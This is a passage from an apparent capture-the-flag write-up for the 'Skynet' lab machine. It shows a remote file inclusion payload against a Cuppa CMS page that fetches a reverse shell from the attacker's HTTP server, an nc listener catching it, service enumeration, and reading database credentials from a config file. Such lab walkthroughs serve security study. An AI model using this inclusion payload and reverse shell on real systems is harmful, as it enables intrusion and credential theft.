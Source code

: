 Let's not waste any time and get a reverse shell.

First, you need to start a python http server in the directory that contains the reverse shell:

```sh
┌──(bvr0n㉿fsociety)-[~/ctf/thm/skynet]
└─$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

Start a `nc` listener and request the reverse shell:

```sh
http://10.10.46.34/**/administrator/alerts/alertConfigField.php?urlConfig=http://IP:8000/reverse.php

┌──(bvr0n㉿fsociety)-[~]
└─$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [**] from (UNKNOWN) [10.10.46.34] 50750
Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 12:12:58 up 45 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```
## Privilege Escalation :

First thing i checked, is for services that are runnig internally:

```sh
www-data@skynet:/var/www/html/**/administrator$ netstat -tanup 
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:110             0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:143
```

Looks like `MySQL` is running, let's look for any configuration file.

```sh
www-data@skynet:/var/www/html/**/administrator$ ls
Configuration.php  alerts  classes  components  index.php  js  media  templates
php data@skynet:/var/www/html/45kra24zxs28v3yd/administrator$ cat Configuration.p
<?php 
        class Configuration{
                public $host = "localhost";
                public $db = "cuppa";
                public $user = "root";
                public $password = "password123";
                public $table_prefix = "cu_";
                public $administrator_template = "default";
                public $list_limit = 25;
                public $token = "OBqIPqlFWf3X";
```
